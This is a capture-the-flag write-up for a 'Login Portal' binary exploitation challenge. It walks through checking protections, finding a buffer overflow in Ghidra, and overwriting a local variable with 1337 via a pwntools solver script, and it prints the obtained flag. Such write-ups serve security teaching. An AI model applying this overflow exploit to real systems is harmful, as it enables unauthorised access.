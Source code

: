 # Login Portal
>I dare you to login as admin ;)

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/746bf456-3ae5-4fb4-b3ed-d0a591b983be)

Given a binary file, and immediately check the binary
the protection

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/821f10e1-5cd4-49c2-ae3a-5a12560417ef)

From the results it was found that there was no canary and also PIE
Next, do a static analysis first to check
its vulnerable. Decompile using ghidra. on function
main, called login_user.

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/37f89df8-cdcf-43d9-9c09-f252618d64f7)

In line 12 it can be seen that there is a potential BOF, so
it looks like you just need to overwrite the value of the local_18 variable
becomes 0x539 or 1337. After successfully overwriting then
we managed to get the shell.

But keep in mind to do a stack overwrite is not necessary
perform BOF until it touches the Instruction Pointer. Just need to be precise
on the number of input buffers (48). So fill in the padding as much as 48
bytes, then enter the value 1337.

#### The solver used: 
```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

padding = 48

p = flat([
    asm('nop') * padding,
    1337
])

sh.sendlineafter(b':', p)
sh.interactive()
```

Then do a test locally : shell got

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/8d478687-36b9-4131-9d32-84fa43936074)

Just send it to the remote server:

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/9c96cc54-9cd8-4db9-88ab-8266ccf82ad3)

#### Flags successfully obtained:
```console
ForestyHC{admin_1337_here_is_your_crown_1fad32}
```

##### Solved by : valcaries
